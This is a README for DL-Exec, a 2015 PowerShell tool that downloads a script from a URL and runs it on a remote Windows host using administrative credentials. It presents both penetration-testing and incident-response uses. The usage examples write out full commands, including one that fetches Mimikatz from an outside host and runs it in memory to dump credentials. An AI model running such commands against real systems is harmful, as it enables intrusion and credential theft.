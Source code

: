 		Download and Execute - PowerShell
		greg . foss [at] logrhythm . com
        @heinzarelli
		v0.1 -- July 2015

## [About]

DL-Exec is a simple script that leverages user-supplied parameters to download and execute a PowerShell script with arguments on a remote host. This script can even run without touching disk via the memoryExec parameter, or if run-time parameters are required, the script can be downloaded and executed on the host directly.

## [How To]

    Execute a PowerShell script on a remote host in-memory:
        
        PS C:\> dl-exec.ps1 -source http://some.site/mimikatz.ps1 -target 10.10.10.10 -memoryExec -arguments "Invoke-Mimikatz -DumpCreds"

    Execute a PowerShell script on a remote host with run-time parameters:

        PS C:\> dl-exec.ps1 -source http://some.site/honeyports.ps1 -target 10.10.10.10 -fileExec -arguments "-Ports 21,22"

## [Use Cases]

#####Offensive

Execute various tools from frameworks like PowerSploit, Nishang, etc. on a remote host during penetration testing engagements.
![Mimikatz](/images/remote-mem-dl-exec.png)

#####Defensive

Execute various tools from frameworks like Kansa, Honeyports, etc. on a remote host during Active Defense and/or Incident Response scenarios.
![Honeyports](/images/honeyport-fileexec.png)

#####Other

No matter the script, it's possible to chain additional commands depending on the goal...
![Chaining](/images/command-chaining.png)

## [Parameter Breakdown]

    Script Source:

        -source     :   Define the script source

    Execution Parameters:

        -memoryExec :   Download and execute a script in memory
        -fileExec   :   Download a script and execute it from the host (leaves more traces)
        -arguments  :   Define the command-line arguments/switches/commands to be passed
                        (depending on how the script is executed)
        -target     :   Determine the remote host to extract data from

    Credentials - Required for remote execution and interaction with Active Directory

        -username   :   Administrative Username
        -password   :   Administrative Password

        If neither parameter is supplied, you will be prompted for credentials
        (FYI -- It's a bad idea to supply credentials at the command line, but there are times when it may be required)

## [License]

Copyright (c) 2015, Greg Foss
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions are met:
* Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
* Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer in the documentation and/or other materials provided with the distribution.
* Neither the name of Greg Foss, LogRhythm, LogRhythm Labs, nor the names of any of its contributors may be used to endorse or promote products derived from this software without specific prior written permission.
* This script is not 'forensically sound' as it will write to the target host. Please keep this in mind.

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND
ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED
WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
DISCLAIMED. IN NO EVENT SHALL <COPYRIGHT HOLDER> BE LIABLE FOR ANY
DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES
(INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES;
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND
ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT
(INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS
SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.